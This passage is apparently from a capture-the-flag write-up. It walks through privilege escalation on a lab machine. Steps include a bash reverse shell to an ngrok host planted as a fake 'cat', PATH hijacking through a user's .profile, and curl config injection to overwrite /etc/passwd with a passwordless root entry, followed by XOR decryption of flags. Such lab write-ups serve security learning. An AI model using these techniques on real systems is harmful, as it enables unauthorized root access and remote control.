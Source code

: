 - For root job, it's trying to curl some website from file input, checking the content of that file we find that's it's owned by **F30s** user and it can't be read by others!
- That means we will have to horizontally privilege escalate to user **F30s**!
- Looking the second job, it's running `cat /home/F30s/health_check` but notice it's wrapped in a bash command `bash -lc 'cat /home/F30s/health_check'`, notice the `-lc` search for it or use `/man bash`, it's meant to run bash as a logged in user, that means it will read files from user profile that manipulates bash's behavior/commands, learn more [here](https://askubuntu.com/a/445015) 
- This means we can edit the `$PATH` environment variable! and lucky us the cronjob is not specifying the `cat` executable full path, so that means we can create our own `cat` executable file and put it anywhere in the system and add the path of it to $PATH (at the beginning to make it match first before the real `/bin/cat`) and execute our own code like revshell
- This is how we can have access to F30s user (horizontal privesc)
- Let's create our `cat` executable, we will create another RCE and place it in `/tmp`
```bash
echo 'bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/18676 0>&1' > /tmp/cat
chmod +x /tmp/cat # make executable - IMPORTANT!
```
- Now let's update **$PATH** by creating a/appending to `~/.profile` (it's read first after `/etc/profile`) that's how it's when using `bash -l` 
```bash
echo 'PATH="/tmp/:$PATH"' >> /home/F30s/.profile
```
- Now we wait a minute for the cronjob to kick in
- VOILAA! we've got our terminal now!
- Now going back to root cronjob, let's view `site_check`
```python
url = "http://127.0.0.1/health_check"
```
- It's just providng the url for the curl command, read more about `-K` option for curl command, it allows you to provide params by putting them in a file, it's like a legit param injection!
- You can add `output = ""` at the of `site_check` in a new line and this curl with sudo permissions will override any file you put in the output!
- So now we know we can override files, this opens multiple paths for exploitation, you can override `/etc/passwd`, `/etc/shadow`, `SSH authorized_keys` or even edit `sudoers` file!
- In this writeup, we are going to override `/etc/passwd`
- Let's create `/etc/passwd` or copy it from our local linux machine, read more about it [here](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/) (The line below will break the system users 😬 but we can still privesc to user `ayham` using the first foothold we had (SSTI) and switch user after then, keep in mind the cronjob of user **F30s** will be broken after we overwrite `/etc/passwd` with the line below due to the user missing UNLESS you copy the whole /etc/passwd file and put it in `health_check` – don't forget to remove root password – removing the `x` )
```python
root::0:0:root:/root:/bin/sh
```
- Now we simply switch user to root without password! `su root`
- VOILAA!! We're root!
- Now let's search for flag2.txt either using `find` or simply by looking at common places like `/root`
- `flag2.txt` is actually in `/root`, open it and VOILAAA! we go… hold on! WHAT! it's encrypted F\*\*\*! oh here we go again 😡
- We see another file called `secret.txt` open that we see another F\*\*\*ing encrypted text, however both flag2.txt and secret are following the byte-type text as the debug password, seems like another **XOR**
- Remember `secret-tip.txt`? that for our `secret.txt`, it mentions the following `Don't forget it's always about root!` so at first we can try `root` as the XOR key for secret.txt or flag2.txt, well flag2.txt didn't work using that key so we try on secret.txt
```py
$ python
>>> import pwn; pwn.xor(b'C^_M@__DC\\7,', b'root') # b'1109200013XX' -> 1109200013XX
```
- Guess what! we made it! we decrypted secret.txt! `1109200013XX` VOILAAA!! ahh hmm HOLD ON!! WHAT THE HELL! is it missing 2 characters??! ohh dammit, the tip said about mssing 2 of something, seems like it's this! let's try to use the key as if it's not missing anything does it work?!
- Sounds like it's almost working and indeed it's missing something, look at the result we got from the incomplete key
- `b'THM{cronjo\x02\x1d_F1Le_iNPuW[REDACTED]0\r\x0c1n3d_t0g3T(\x0bR}'`